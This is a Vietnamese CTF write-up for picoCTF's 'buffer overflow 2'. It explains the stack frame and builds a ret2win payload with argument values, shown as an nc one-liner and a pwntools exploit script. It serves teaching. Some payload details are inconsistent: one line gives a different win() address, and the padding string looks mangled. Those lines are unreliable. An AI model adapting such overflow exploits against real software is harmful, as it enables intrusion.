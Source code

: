 # buffer overflow 2

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

b) Nhận xét

- Trước hết ta phải ghi đè địa chỉ trả về vào hàm win, sau đó muốn hàm win in ra flag thì hai đối số arg1 và arg2 phải nhận các giá trị lần lượt là 0xcafef00d và 0xf00df00d

## 2. Ý tưởng khai thác

- Đầu tiên, ta phải hiểu được cấu trúc stack của một hàm hoàn chỉnh. Dưới đây là mô hình ngăn xếp khi ta gọi một hàm nào đó:

![image.png](image.png)

- Ở đây ta thấy arg1 và arg2 là đối số của hàm được gọi, và nó được truyền vào khi ta dùng hàm call để gọi một hàm. Tuy nhiên vì ta không dùng hàm call để gọi hàm mà ta dùng kỹ thuật ghi đè địa chỉ trở về nên việc truyền đối số không thể thực hiện bình thường được. Khi đó hàm win sẽ đọc các giá trị tại vị trí mà nó mong đợi tìm thấy tham số. Những giá trị này có thể là bất kỳ thứ gì đã có sẵn trên stack tại thời điểm đó (ví dụ: các biến cục bộ của hàm bị overflow, return address cũ, hoặc đơn giản là rác trên stack)
- Vì vậy ta phải sử dụng kỹ thuật buffer overflow để tiếp tục chèn các tham số mong muốn trực tiếp vào vùng nhớ stack mà hàm win sẽ đọc. Vấn đề ở đây là ta phải tìm được địa chỉ của ô nhớ mà win sẽ đọc.
- Khi ta ghi đè địa chỉ trở về của hàm win vào return address trên stack thì hàm win vẫn chưa được gọi. Tức là nó vẫn thực hiện tiếp các câu lệnh khác trong hàm chứ chưa nhảy đến hàm win luôn. Chỉ khi nào câu lệnh ret được gọi, giá trị ghi đè vào return address mới được sử dụng, và EIP được cập nhật. Ở đây câu lệnh ret chỉ được gọi khi hàm vuln kết thúc:

![image.png](image%201.png)

- Trước câu lệnh ret ta cũng phải quan tâm đến câu lệnh leave. Câu lệnh leave tương đương 2 câu lệnh con:

```cpp
mov esp, ebp
pop ebp
```

Giá trị hiện tại của EBP sẽ được gán vào cho con trỏ ngăn xếp, và sau đó EBP được phục hồi với
giá trị đã lưu trên ngăn xếp. Đây là minh họa ngăn xếp trước và sau khi thực hiện 2 câu lệnh trên:

![image.png](image%202.png)

- Sau đó câu lệnh ret được thực hiện, lệnh ret lấy giá trị return address tại nơi ESP trỏ đến để truyền vào EIP, đồng thời ESP cũng được tăng thêm 1 ô nhớ (4 byte):

![image.png](image%203.png)

- Sau đó hàm win được gọi, phần dẫn nhập (tức là những lệnh assembly đầu tiên của 1 hàm) của hàm win gồm hai câu lệnh:

```cpp
push ebp
mov ebp, esp
```

- Lưu ý rằng: PUSH là thao tác đưa một đối tượng vào ngăn xếp. Trong cấu trúc Intel x86 32 bit, khi ta đưa một giá trị vào ngăn xếp thì CPU sẽ tuần tự thực hiện hai thao thác nhỏ:
   + ESP được gán giá trị ESP - 4, tức giá trị của ESP sẽ bị giảm đi 4.
   + Đối số của lệnh PUSH được chuyển vào 4 byte trong bộ nhớ bắt đầu từ địa chỉ do ESP xác định.
(lệnh POP cũng tương tự)
- Hình vẽ sau (chỉ mang tính minh họa) miêu tả trạng thái của stack ban đầu và stack sau 2 câu lệnh đó:

![image.png](image%204.png)

- Vậy stack hoàn chỉnh của hàm win sẽ như sau, lưu ý rằng ô chứa địa chỉ return address và arg1, arg2 chỉ là hàm win nghĩ rằng ô đó chứa, và nó sẽ đọc giá trị tại các ô nhớ đó. Nhiệm vụ bây giờ của chúng ta là chèn vào các ô nhớ đó các giá trị mà chúng ta muốn: chèn giá trị 0xCAFEF00D vào ô nhớ chứa arg1 và giá trị 0xF00DF00D vào ô nhớ chứa giá trị arg2:

![image.png](image%205.png)

- Ta dễ dàng thấy payload sẽ là: padding + địa chỉ hàm win + 4 byte ghi đè ô nhớ chứa return address của hàm win + 0xCAFEF00D + 0xF00DF00D

## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Tương tự như bài buffer overflow 1 (xem write-up bài trước) ta tự tìm được padding là 112

b) Bước 2: Tìm địa chỉ của hàm win

- Dùng câu lệnh “info functions” để xem địa chỉ các hàm, ở đây ta tìm được địa chỉ của hàm win là 0x08049296. Theo kiến trúc little-edian thì địa chỉ đó sẽ được ghi trong stack là \x96\x92\x04\x08
- Vậy payload cần dùng là: 112 ký tự padding +  “\xf6\x91\x04\x08” + 4 ký tự padding + \x0d\xf0\xfe\xca + \x0d\xf0\x0d\xf0

c) Bước 3: Viết payload

- Cách 1: truyền bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A3Abb4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2AcA3c4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6AAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6A\x96\x92\x04\x08AAAA\x0d\xf0\xfe\xca\x0d\xf0\x0d\xf0"; cat) | nc saturn.picoctf.net 51471
```

- Cách 2: dùng file thực thi
  + Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('saturn.picoctf.net', 51472)

payload=b'a'*112 + p32(0x08049296) + b'a'*4 +  p32(0xcafef00d) + p32(0xf00df00d)

p.sendline(payload)
p.interactive()
```

![image.png](image%206.png)

## 4. Kết luận

- Địa chỉ return address trong stack bị ghi đè bởi buffer overflow, nhưng nó chỉ được thực thi khi câu lệnh ret được gọi
- Hiểu được cấu trúc hoàn chỉnh của một stack và cấu trúc stack khi gọi hàm
